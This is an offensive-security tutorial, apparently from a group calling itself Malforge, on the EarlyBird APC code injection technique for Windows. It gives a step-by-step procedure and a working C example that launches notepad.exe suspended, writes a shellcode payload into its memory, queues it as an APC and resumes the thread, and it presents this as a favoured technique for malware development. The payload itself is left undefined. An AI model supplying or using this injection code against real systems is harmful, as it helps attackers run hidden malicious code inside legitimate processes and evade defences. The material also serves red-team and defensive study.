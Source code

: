 
# EarlyBird APC Code Injection

## Introduction

Welcome to this article! Today, we’ll explore the **EarlyBird APC Code Injection** technique. This method revolves around creating a process in a suspended state, injecting shellcode into its APC (Asynchronous Procedure Call) queue, and then resuming the thread to trigger execution. It gives precise control over when the shellcode is executed.

## Understanding APC Injection

APC Injection is a known technique under process injection methods, such as remote thread injection. To summarize:

- Threads operate inside processes and can execute code asynchronously using APC queues.
- Each thread maintains its own APC queue.
- Applications can enqueue functions (APCs) to run in a thread, provided they have the appropriate privileges.
- Queued APCs execute when the thread enters an alertable state.

> Note: For understanding APC Injection, [kindly refer](https://0x00sec.org/t/process-injection-apc-injection/24608)

**Key Difference:**  
While traditional APC Injection targets existing remote processes, **EarlyBird** differs by creating a fresh process (e.g., `calc.exe`) in a suspended state, giving full control over timing.

![image](https://github.com/user-attachments/assets/4d4a50fd-96cb-445a-8730-1aa0b9c3731a)

## Earlybird 

[Early Bird APC Code Injection](https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection)

### High Level Overview of the technique:

1. Create a legitimate process (e.g., `notepad.exe`) in a suspended state.
2. Allocate memory in the target process.
3. Write your shellcode into this allocated memory.
4. Queue the shellcode as an APC to the main thread.
5. Resume the suspended thread, executing your shellcode.

![image](https://github.com/user-attachments/assets/b9ca9d15-6a84-4fc1-bd0f-3a0fd22c6d9b)

## Code Example

```c
int main(void) {
    int pid = 0;
    HANDLE hProc = NULL;

    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    void *pRemoteCode;

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    CreateProcessA(0, "notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);

    pRemoteCode = VirtualAllocEx(pi.hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(pi.hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);

    QueueUserAPC((PAPCFUNC)pRemoteCode, pi.hThread, NULL);

    ResumeThread(pi.hThread);

    return 0;
}
```

## Proof of Concept

![image](https://github.com/user-attachments/assets/3262ebb5-cade-46a6-956c-b3be7c4d5c97)

Once executed, the shellcode runs within the context of `notepad.exe`, confirmed by the MessageBox originating from that process.

## Conclusion

EarlyBird APC Injection is a highly effective method for process injection, offering fine control over code execution. It remains a favored technique in malware development and red teaming exercises.
Thanks for reading!

— **Malforge Group**
